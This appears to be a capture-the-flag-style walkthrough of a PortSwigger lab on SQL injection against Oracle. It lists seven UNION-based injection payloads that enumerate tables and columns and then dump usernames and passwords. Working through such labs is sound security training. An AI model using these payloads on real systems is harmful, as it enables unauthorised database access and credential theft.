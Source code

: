 # [SQL injection attack, listing the database contents on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

Step - 1

---

```
'
```

Error because Single Quotes

Step - 2

---

```
'--
```

No MySQL

Step - 3

---

```
' ORDER BY 3--
```

Error because 2 Column

Step - 4

---

```
' UNION SELECT 'a','a' FROM dual--
```

2 String Column

Step - 5

---

```
' UNION SELECT 'a',table_name FROM all_tables--
```

1. table_name: `USERS_JASUOU`

Step - 6

---

```
' UNION SELECT 'a',column_name FROM all_tab_columns WHERE table_name='USERS_JASUOU'--
```

1. column_name: `USERNAME_GSFFNH` and `PASSWORD_DITWXL`

Step - 7

---

```
' UNION SELECT 'a',USERNAME_GSFFNH || '~' || PASSWORD_DITWXL FROM USERS_JASUOU--
```
